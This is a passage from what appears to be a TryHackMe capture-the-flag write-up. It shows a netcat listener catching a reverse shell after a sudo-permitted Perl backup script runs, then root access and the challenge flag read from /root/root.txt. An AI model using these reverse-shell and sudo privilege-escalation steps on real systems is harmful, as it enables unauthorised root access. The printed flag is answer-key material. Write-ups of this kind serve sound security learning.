 But before that let's start a netcat listner on our machine:

```
$nc -l -p 8877
```

Now that our listner has started let's execute the script as sudo as following:

```
www-data@THM-Chal:/$ sudo /usr/bin/perl /home/itguy/backup.pl
rm: cannot remove '/tmp/f': No such file or directory
```

Now go back to you netcat listner, you'll see that a remote terminal has been initiated

```
$nc -l -p 8877
/bin/sh: 0: can't access tty; job control turned off
#
```

First check for the user with which we got the access.

```
# whoami
root
```

Finally !!
Now that we have the root access, all that's left is to read the root.txt file for our final flag.

```
# cat /root/root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

